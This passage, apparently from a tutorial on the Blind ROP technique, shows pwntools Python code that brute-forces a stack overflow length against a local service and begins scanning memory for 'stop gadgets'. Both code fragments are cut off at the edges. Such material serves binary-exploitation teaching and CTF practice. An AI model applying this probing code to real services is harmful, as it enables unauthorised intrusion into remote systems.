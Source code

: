```

            sh = remote('127.0.0.1', 9999)

            sh.recvuntil('WelCome my friend,Do you know password?\n')

            sh.send(i * 'a')

            output = sh.recv()

            sh.close()

            if not output.startswith('No password'):

                return i - 1

            else:

                i += 1

        except EOFError:

            sh.close()

            return i - 1

```



Based on the above, we can determine that the length of the stack overflow is 72. At the same time, according to the echo information, it can be found that the program does not open canary protection, otherwise, there will be corresponding error content. So we don&#39;t need to perform stack reading.


#### Looking for stop gadgets


The search process is as follows


```python

def get_stop_addr(length):

    addr = 0x400000

    while 1:

        try:

            sh = remote('127.0.0.1', 9999)

            sh.recvuntil('password?\n')

            payload = 'a' * length + p64(addr)

            sh.sendline(payload)

            sh.recv()

            sh.close()

            print 'one success addr: 0x%x' % (addr)

            return addr

```